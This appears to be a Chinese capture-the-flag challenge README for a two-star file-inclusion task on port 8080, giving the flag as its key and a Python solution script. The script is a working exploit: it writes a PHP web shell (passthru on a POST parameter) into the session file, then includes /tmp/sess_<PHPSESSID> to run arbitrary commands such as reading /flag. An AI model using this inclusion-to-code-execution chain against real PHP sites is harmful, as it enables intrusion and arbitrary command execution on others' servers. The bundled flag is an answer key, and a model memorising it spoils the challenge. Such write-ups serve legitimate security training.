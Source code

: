 # 题目：文件包含

### 题目描述：文件包含

### 题目难度： 🌟🌟

### 维护：le31ei

### KEY: `flag{d41d8cd98f00b204e9800998ecf8427e}`

### 配置信息： 
1. 开放端口： `8080`

### 解题过程：

exp:
```python
#!/usr/bin/env python
# coding: utf-8

from time import sleep
import requests

url = 'http://127.0.0.1:8080'


s = requests.session()

def execute(cmd):
    params = {
        'file': '<?php passthru($_POST["cmd"]); ?>'
    }
    r = s.get(url, params=params)
    params['file'] = '/tmp/sess_' + r.cookies['PHPSESSID']

    r = s.post(url, params=params, data={'cmd': cmd})
    return r.text

print execute('cat /flag')

```

